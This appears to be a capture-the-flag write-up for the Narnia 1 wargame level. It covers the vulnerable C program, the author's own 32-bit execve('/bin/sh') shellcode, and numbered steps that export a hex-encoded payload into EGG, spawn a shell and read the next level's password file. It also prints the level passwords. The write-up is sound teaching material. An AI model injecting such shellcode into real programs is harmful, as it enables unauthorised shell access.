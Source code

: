 # Narnia 1

Password: `efeidiedae`

Running /narnia/narnia1 gives the message `Give me something to execute at the env-variable EGG`

The source code for the problem is (no license, again):

```C
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

I attempted to build something sneaky [like this](./narnia01/failed-1.c) (compiled with gcc) but it didnt work. Ultimately a bit of research revealed that this is a shellcode problem: the goal is to place into the environment variable some text that is the hex encoding of legitimate machine code, so when the program casts it to a function, the function is valid.

Shellcode is the nickname for position-independent code, machine code that can be placed anywhere in memory and still function as intended. It needs to not depend on any stack variables, and to contain no null values (that is, to not contain the text `\x00`) so that it can function both as a full string and as machine code (the null value would prematurely terminate the string, ruining the shellcode).

While its entirely possible to grab some shellcode online (e.g. from the [shellcode database](http://shell-storm.org/shellcode/)), I took this as a learning challenge and decided to write my own.

First I tried doing so solely through C, [like this](./narnia01/failed-2.c), but couldn't get the output right. I was compiling using the command `gcc narnia01-shellcode.c -O0 -o shellcode` and dumping the assembly with `objdump -d shellcode`, but couldn't get rid of the null bytes - seemed to be some sort of optimisation I couldn't get rid of.

Next I tried with Assembly, but ran into a problem: none of the assembly I would write would work. It would always result in a seg fault. I thought it might be processor architecture, but when I tried to assemble on the narnia remote machine it would work and both the remote machine and my dev machines had the same x86-x64 architecture. Ultimately this turned out to be a quirk of WSL: the windows subsystem is 64 bit only - no 32 bit assembly at all. Linux 64 bit machines still allow 32 bit via compatibility. If I wrote valid 64 bit assembly it would work. However, most shell code tutorials assume 32 bit so I wanted to work with that. Remote assembling only, it would seem.

The next challenge was getting `execve` (the command that switches the current process with another) to run. The command takes three params, the second being an array and I struggled to get this working - bearing in mind I set myself a limit that I must write the code, and I must understand it. I could have just copied something, copied some assembly script, but I didn't want to do that. All the same, the final solution was a bit of a copout - it seems that linux doesn't actually require you to use execve properly, at least not in assembly: you can leave param two null and it works fine :) The first shell code I got working is [here in shellcode-64bit.asm](./narnia01/shellcode-64bit.asm), and was successfully tested in [this C testprog](./narnia01/testprog.c).

*However*, this also didn't work when used on the narnia program: while the shellcode worked fine whenever I used my own test programs, or even compiled nearly identical test programs on the remote host with the code injected in, it failed with narnia1. I got a mix of seg faults and illegal instructions - the former I am not sure, but the latter I eventually figured out: while the machine is x86_64, the narnia1 executable *itself* is 32 bit. So I need 32 bit shellcode, which I created [here in shellcode-32bit.asm](./narnia01/shellcode-32bit.asm) via a simple conversion (`int $0x80` instead of `syscall`, some different registers and constants being used).

## Steps to use exploit:

1. Copy or create a file called `shellcode.s` on the Narnia machine, containing the contents of [shellcode-32bit.asm](./narnia01/shellcode-32bit.asm)
2. Compile as a 32 bit executable via `gcc -m32 -nostdlib shellcode.s -o shellcode.so`
3. Use `objdump -d ./shellcode.so` to get the assembly dump.
4. Combine all machine code numbers (the second column of hex pairs) together sequentially with `\x` prefixing each.

    E.g. if the machine code is the lines `eb 0e`, `31 db`, `5b` then combined its `\xeb\x0e\x31\xdb\x5b`

5. Set the environment variable to the result using a command that parses escape sequences, e.g. on my run I used `echo -e` and the command was:

    `export EGG=$(echo -e "\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")`

6. Run narnia1: `/narnia/narnia1`
7. All going well, you should get a shell. Run the command `cat /etc/narnia_pass/narnia2` to get the password for narnia2.

The password for narnia2 is **`nairiepecu`**.

Useful resources: 

- [Linux System Call Table for x86_64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
- [Linux System Call Table for 32bit](http://shell-storm.org/shellcode/files/syscalls.html)
- [NASM Tutorial](https://cs.lmu.edu/~ray/notes/nasmtutorial/)
- [GNU Assembler (GAS) Samples](https://cs.lmu.edu/~ray/notes/gasexamples/)
- [StackOverflow hint showing I was overengineering things](https://stackoverflow.com/a/46553481)